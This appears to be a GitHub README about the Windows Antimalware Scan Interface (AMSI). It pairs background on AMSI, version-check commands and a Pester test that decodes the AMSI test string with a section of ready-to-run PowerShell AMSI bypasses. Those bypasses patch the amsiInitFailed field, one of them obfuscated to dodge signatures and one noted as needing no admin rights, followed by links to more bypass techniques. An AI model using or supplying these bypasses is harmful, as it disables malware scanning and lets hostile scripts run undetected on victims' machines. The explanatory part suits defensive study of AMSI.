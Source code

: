 # AMSI (Anti-Malware Scanning Interface)


Languages
-- -
- powershell (scripting)
- vb.net (scripting)
- c# (compiled)
- f# (compiled)


![dotnet](./images/dotnet.jpeg)

AMSI
-- -

Introduced in June 2015.

The Windows Antimalware Scan Interface (AMSI) is a versatile interface standard that allows your applications and services to integrate with any antimalware product that's present on a machine. AMSI provides enhanced malware protection for your end-users and their data, applications, and workloads.  

AMSI is agnostic of antimalware vendor; it's designed to allow for the most common malware scanning and protection techniques provided by today's antimalware products that can be integrated into applications. It supports a calling structure allowing for file and memory or stream scanning, content source URL/IP reputation checks, and other techniques.

The AMSI feature is integrated into these components of `Windows 10`:
- User Account Control, or UAC (elevation of EXE, COM, MSI, or ActiveX installation)
- PowerShell `v5` (scripts, interactive use, and dynamic code evaluation)
- Windows Script Host (Wscript.exe and Cscript.exe) (scripts and dynamic 
- Office365 (JavaScript/VBA)  
- Windows Management Instrumentation (WMI)
- .Net Framework 4.8 (Scanning for all assemblies) - ***NEW***

> **Runtime – Antimalware Scanning for All Assemblies** : In previous versions of .NET Framework, Windows Defender or third-party antimalware software would automatically scan all assemblies loaded from disk for malware. However, assemblies loaded from elsewhere, such as by using Assembly.Load(byte[]), would not be scanned and could potentially carry viruses undetected.

[https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/](https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/)

.NET Framework 4.8 on Windows 10 triggers scans for those assemblies by Windows Defender and many other antimalware solutions that implement the Antimalware Scan Interface. We expect that this will make it harder for malware to disguise itself in .NET programs.

In its default configuration, macros are scanned at runtime via AMSI except in the following scenarios:

- Documents opened while macro security settings are set to “Enable All Macros”
- Documents opened from trusted locations
- Documents that are trusted documents
- Documents that contain VBA that is digitally signed by a trusted publisher

[https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps](https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps)

>Runtime – Antimalware Scanning for All Assemblies
>In previous versions of .NET Framework, Windows Defender or third-party antimalware software would automatically scan all assemblies loaded from disk for malware. However, assemblies loaded from elsewhere, such as by using Assembly.Load(byte[]), would not be scanned and could potentially carry viruses undetected.
>
>.NET Framework 4.8 (released April 18th on Windows 10 triggers scans for those assemblies by Windows Defender and many other antimalware solutions that implement the Antimalware Scan Interface. We expect that this will make it harder for malware to disguise itself in .NET programs.
>
>**LINK** : [https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/](https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/)
>
>**LINK** : [https://en.wikipedia.org/wiki/.NET_Framework_version_history](https://en.wikipedia.org/wiki/.NET_Framework_version_history)

![image](./images/amsi7archi.jpg)

Supported OS
---
- Windows 10 PRO/ENTERPRISE and Windows Server 2016
- Windows Server 2019

Supported 3rd party Antivirus/EDR vendors
---
- Windows Defender
- Carbon Black Defense
- Crowdstrike Falcon
- Kaspersky
- McAfee Endpoint Security 10.6.0 
- Sophos
- Symantec (v14.3 and later)

**LINK** : [https://github.com/subat0mik/whoamsi](https://github.com/subat0mik/whoamsi)


To check which version of .net and the CLR is installed open a powershell prompt and type the following:

```code
$psversiontable
[System.Reflection.Assembly]::GetExecutingAssembly().ImageRuntimeVersion
$dotnet = [System.Reflection.Assembly]::Load("mscorlib")
$dotnet.GetName().Version
```

![image](./images/dotnetversion.jpg)

Check Powershell installed on the system:

```yaml
(Get-ItemProperty HKLM:\SOFTWARE\Microsoft\PowerShell\*\PowerShellEngine -Name PowerShellVersion).PowerShellVersion
```

AMSITEST
---

```yaml
It '"Antimalware Scan Interface" is working' {
    # AMSI test string 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
    # (in the following as an obfuscated string)
    # must throw an error if executed (blocked by AMSI)
    $TestString = "FHJ+YHoTZ1ZARxNgUl5DX1YJEwRWBAFQAFBWHgsFAlEeBwAACh4LBAcDHgNSUAIHCwdQAgALBRQ="
    $Bytes = [Convert]::FromBase64String($TestString)
    $String = -join ($bytes | ForEach-Object { [char]($_ -bxor 0x33)})
    { Invoke-Expression -Command $String } | Should Throw
}
```

AMSIBYPASS
---

Works on 1803 and before

> This bypass does not require administrator rights!!!

```yaml
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic, Static').SetValue($null,$true)
```

Works on 1903, 1909 and before

```yaml
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c, ' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

List `dirty` words: 

```yaml
[ScriptBlock].GetField('signatures', 'NonPublic, Static').GetValue($null)
```

----

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell?tab=readme-ov-file#Patch-the-providers-DLL-of-Microsoft-MpOav.dll

check which processes have amsi.dll loaded

Get-Process | where {$_.modules.ModuleName -eq 'Amsi.dll'}


Los er door:

```powershell
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
```

https://medium.com/@sam.rothlisberger/amsi-bypass-memory-patch-technique-in-2024-f5560022752b


And finally AMSI.FAIL